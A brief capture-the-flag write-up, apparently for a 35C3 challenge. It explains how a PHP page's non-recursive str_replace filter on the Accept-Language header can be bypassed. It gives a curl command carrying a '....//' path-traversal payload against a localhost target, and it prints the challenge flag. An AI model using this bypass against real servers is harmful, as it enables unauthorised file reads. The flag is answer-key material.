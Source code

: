 # 🔑 Write-Up

* we can see the php source code
* it uses `str_replace` to "escape" the header and prevent path traversal
* `str_replace` doesn't recursively replace the source string so it's easily bypassed

```
curl 'http://localhost:1235/' -H 'Accept-Language: ....//....//....//....//flag'
```

### 🚩 Flag

```
35c3_this_flag_is_the_be5t_fl4g
```